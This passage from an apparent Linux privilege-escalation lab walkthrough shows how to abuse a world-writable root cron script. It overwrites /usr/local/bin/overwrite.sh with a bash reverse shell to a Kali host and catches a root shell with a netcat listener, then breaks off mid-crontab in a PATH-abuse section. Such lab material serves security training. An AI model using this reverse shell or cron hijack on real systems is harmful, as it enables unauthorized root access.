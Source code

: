     There should be two cron jobs scheduled to run every minute. One runs `overwrite.sh`, the other runs `/usr/local/bin/compress.sh`.

- Locate the full path of the overwrite.sh file:
    
    ```bash
    user@debian:~$ locate overwrite.sh
    locate: warning: database `/var/cache/locate/locatedb' is more than 8 days old (actual age is 245.2 days)
    /usr/local/bin/overwrite.sh
    ```

- Note that the file is world-writable:

    ```bash
    user@debian:~$ ls -l /usr/local/bin/overwrite.sh
    -rwxr--rw- 1 root staff 40 May 13  2017 /usr/local/bin/overwrite.sh
    ```

- Replace the contents of the overwrite.sh file with the following after changing the IP address to that of your Kali box.

    ```
    #!/bin/bash
    bash -i >& /dev/tcp/10.11.25.205/9999 0>&1
    ```

- Set up a netcat listener on your Kali box on port 9999 and wait for the cron job to run (should not take longer than a minute). A root shell should connect back to your netcat listener.

    ```bash
    $ nc -lnvp 9999
    listening on [any] 9999 ...
    connect to [10.11.25.205] from (UNKNOWN) [10.10.240.248] 48535
    bash: no job control in this shell
    root@debian:~#
    ```

## Cron Jobs - PATH Environment Variable
View the contents of the system-wide crontab:

- View the contents of the system-wide crontab:

    ```bash
    user@debian:~$ cat /etc/crontab
    # /etc/crontab: system-wide crontab
    # Unlike any other crontab you don't have to run the `crontab'
    # command to install the new version when you edit this file
    # and files in /etc/cron.d. These files also have username fields,
    # that none of the other crontabs do.
